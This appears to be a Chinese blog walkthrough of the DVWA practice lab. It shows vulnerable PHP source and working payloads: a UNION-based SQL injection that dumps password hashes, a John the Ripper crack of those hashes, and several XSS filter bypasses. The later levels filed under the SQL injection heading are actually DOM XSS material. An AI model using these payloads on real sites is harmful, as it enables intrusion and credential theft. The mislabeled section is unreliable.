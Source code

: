 ```yaml
---
title: DVWA SQL Injection
date: 2020-12-23 11:01:48
categories: dvwa
tags: 
- sql
---
```


## SQL Injection

### low 级别

**source**

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

<!-- more -->

通过 union 合并查询语句, 获取用户名和密码信息

```sql
' union select user,password from users-- 
```

![sql-injection-low1](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/sql-injection-low1.jpg)

将获取到的信息按照用 `用户名:加密后密码` 的格式排列, 另存为 dvwa-users.txt

```txt
admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99
```

在 kali 中使用 john 命令破解密码

```
(root@kali)-[~]# john --format=raw-MD5 dvwa-users.txt
```

在 kali 当前用户家目录中生成隐藏目录 .john, 其中 john.pot 中包含了解密后的密码, 使用 --show 参数可以直接查看

```shell
(root@kali)-[~]# john --format=raw-MD5 dvwa-users.txt --show
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password

5 password hashes cracked, 0 left
```

### medium 级别

过滤掉了 script 标签, 但可以使用 img 标签

**source**

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

```
http://192.168.3.38/vulnerabilities/xss_d/?default=English</select><img src=1 onerror=alert('xss')>
```

![xss-dom-medium](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/xss-dom-medium.jpg)

### high 级别

设置了白名单, 只允许使用特定关键字, 但使用 `#` 之后的内容被识别为注释, 仍然可以执行

**source**

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

```
http://192.168.3.38/vulnerabilities/xss_d/?default=German#<script>alert('xss')</script>
```

![xss-dom-high](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/xss-dom-high.jpg)

### impossible 级别

开启了客户端保护

```php
<?php

# Don't need to do anything, protction handled on the client side

?>
```

## XSS (Reflected)

### low 级别

**source**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

```
http://192.168.3.38/vulnerabilities/xss_r/?name=<script>alert('xss')</script>#
```

### medium 级别

**source**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

将 `<script>` 替换为空, 可以使用 `<scr<script>ipt>` 绕过

```
http://192.168.3.38/vulnerabilities/xss_r/?name=<scr<script>ipt>alert('xss')</script>#
```

### high 级别

**source**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

过滤掉了 `<script` 关键字, 但 <img> 标签仍然可用

```
http://192.168.3.38/vulnerabilities/xss_r/?name=<img src=1 onerror=alert('xss')>#
```

### impossible 级别

**source**

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

使用 [`htmlspecialchars`](https://www.php.net/htmlspecialchars) 对特殊字符转义, 无法使用 html 标签

